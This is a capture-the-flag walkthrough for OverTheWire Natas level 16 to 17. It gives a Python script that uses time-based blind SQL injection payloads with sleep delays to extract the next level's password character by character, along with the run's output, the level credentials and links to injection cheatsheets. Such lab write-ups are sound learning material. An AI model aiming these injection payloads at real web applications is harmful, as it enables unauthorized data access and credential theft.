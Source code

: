 `Link:` `https://overthewire.org/wargames/natas/natas17.html`
## [𝐖𝐚𝐥𝐤𝐭𝐡𝐫𝐨𝐮𝐠𝐡] ~ 𝐍𝐚𝐭𝐚𝐬 𝐋𝐞𝐯𝐞𝐥 𝟏𝟔 - 𝐋𝐞𝐯𝐞𝐥 𝟏𝟕

## 𝐆𝐢𝐯𝐞𝐧

- Username: natas17
- URL:      `http://natas17.natas.labs.overthewire.org`

## 𝐒𝐨𝐥𝐮𝐭𝐢𝐨𝐧

```
import requests  
from requests.auth import HTTPBasicAuth  
  
Auth=HTTPBasicAuth('natas17', '8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw')  
headers = {'content-type': 'application/x-www-form-urlencoded'}  
filteredchars = ''  
passwd = ''  
allchars = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890'  
  
for char in allchars:  
        payload = 'username=natas18%22+and+password+like+binary+%27%25{0}%25%27+and+sleep%283%29+%23'.format(char)  
        r = requests.post('http://natas17.natas.labs.overthewire.org/index.php', auth=Auth, data=payload, headers=headers)  
        if(r.elapsed.seconds >= 3):  
                filteredchars = filteredchars + char  
                print(filteredchars)  
  
print(filteredchars)  
  
for i in range(0,32):  
        for char in filteredchars:  
                payload = 'username=natas18%22%20and%20password%20like%20binary%20\'{0}%25\'%20and%20sleep(3)%23'.format(passwd + char)  
                r = requests.post('http://natas17.natas.labs.overthewire.org/index.php', auth=Auth, data=payload, headers=headers)  
                if(r.elapsed.seconds >= 3):  
                        passwd = passwd + char  
                        print(passwd)  
                        break  
                                   
```

```
                                                                                                                 
┌──(shreyas㉿kali)-[~/scripts]
└─$ python3 natas17.py
d
dg
dgh
dghj
dghjl
dghjlm
dghjlmp
dghjlmpq
dghjlmpqs
dghjlmpqsv
dghjlmpqsvw
dghjlmpqsvwx
dghjlmpqsvwxy
dghjlmpqsvwxyC
dghjlmpqsvwxyCD
dghjlmpqsvwxyCDF
dghjlmpqsvwxyCDFI
dghjlmpqsvwxyCDFIK
dghjlmpqsvwxyCDFIKO
dghjlmpqsvwxyCDFIKOP
dghjlmpqsvwxyCDFIKOPR
dghjlmpqsvwxyCDFIKOPR4
dghjlmpqsvwxyCDFIKOPR47
dghjlmpqsvwxyCDFIKOPR470
dghjlmpqsvwxyCDFIKOPR470
x
xv
xvK
xvKI
xvKIq
xvKIqD
xvKIqDj
xvKIqDjy
xvKIqDjy4
xvKIqDjy4O
xvKIqDjy4OP
xvKIqDjy4OPv
xvKIqDjy4OPv7
xvKIqDjy4OPv7w
xvKIqDjy4OPv7wC
xvKIqDjy4OPv7wCR
xvKIqDjy4OPv7wCRg
xvKIqDjy4OPv7wCRgD
xvKIqDjy4OPv7wCRgDl
xvKIqDjy4OPv7wCRgDlm
xvKIqDjy4OPv7wCRgDlmj
xvKIqDjy4OPv7wCRgDlmj0
xvKIqDjy4OPv7wCRgDlmj0p
xvKIqDjy4OPv7wCRgDlmj0pF
xvKIqDjy4OPv7wCRgDlmj0pFs
xvKIqDjy4OPv7wCRgDlmj0pFsC
xvKIqDjy4OPv7wCRgDlmj0pFsCs
xvKIqDjy4OPv7wCRgDlmj0pFsCsD
xvKIqDjy4OPv7wCRgDlmj0pFsCsDj
xvKIqDjy4OPv7wCRgDlmj0pFsCsDjh
xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhd
xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhdP

```

## 𝐋𝐞𝐚𝐫𝐧𝐢𝐧𝐠

- Walkthrough: `https://www.abatchy.com/2016/12/natas-level-17`
- Post request: `https://stackoverflow.com/questions/43252542/how-to-measure-server-response-time-for-python-requests-post-request`
- Headers in request module python: `https://stackoverflow.com/questions/6260457/using-headers-with-the-python-requests-librarys-get-method`
- Blind SQL Detection cheatsheet: `https://ansar0047.medium.com/blind-sql-injection-detection-and-exploitation-cheatsheet-17995a98fed1`
- SQL Injection Cheatsheet: `https://github.com/payloadbox/sql-injection-payload-list`
